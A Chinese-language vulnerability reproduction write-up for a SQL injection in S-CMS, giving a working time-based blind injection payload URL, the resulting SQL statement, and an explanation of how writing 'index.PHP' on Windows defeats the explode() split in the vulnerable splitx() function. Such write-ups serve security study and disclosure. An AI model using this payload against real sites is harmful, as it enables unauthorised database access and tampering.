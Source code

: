 ```yaml
---
title: S-CMS sql注入漏洞（二）
id: zhfly3109
---
```


# S-CMS sql注入漏洞（二）

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

漏洞位置：`index.php`

![image](../img/d9981bb34a7b6cb3ce97058fcadfb416.png)

跟进函数`splitx()`

```
function splitx($a, $b, $c)
{
    $d = explode($b, $a);
    return $d[$c];
} 
```

先上**payload**

```
http://www.0-sec.org/index.PHP/a'%20where%20if(1,sleep(5),1)%23?action=update_dir 
```

拼凑SQL语句

```
update TABLE_config set C_dir='index.PHP/a' where if(1,sleep(5),1)#' 
```

**解释**

**$_SERVER[‘PHP_SELF’]**：获取当前文件的路径

> 如：127.0.0.1/xxe/xml.php => /xxe/xml.php

**explode(separator,string,limit)**：分割字符串形成数组

> separator：规定在哪里分割字符串。
> 
> string：要分割的字符串。
> 
> limit：规定所返回的数组元素的数目。

如果使用`index.php`，结果如下：

```
array (size=2)
  0 => string '/index.php/' (length=5)
  1 => string '/a' where if(1,sleep(5),1)#' (length=27) 
```

被截断，但若使用`index.PHP`：

```
array (size=1)
  0 => string '/index.PHP/a' where if(1,sleep(5),1)#' (length=39) 
```

前提：Windows系统下不区分文件大小写。

## 参考链接

> http://pines404.online/2019/10/31/%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1/S-CMS%E5%AE%A1%E8%AE%A1%E5%A4%8D%E7%8E%B0/